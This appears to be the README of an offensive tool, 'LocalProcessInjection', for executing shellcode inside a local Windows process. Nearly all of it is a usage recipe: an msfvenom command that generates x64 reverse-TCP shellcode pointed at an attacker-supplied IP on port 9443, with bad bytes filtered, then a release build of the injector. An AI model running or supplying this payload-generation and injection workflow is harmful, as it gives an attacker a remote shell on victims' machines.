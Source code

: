 # LocalProcessInjection
Executing Shellcode in Local Process 

msfvenom -p windows/x64/shell_reverse_tcp LHOST=Your_IP LPORT=9443 -f c -b \x00\x0a\x0d


cargo build --release


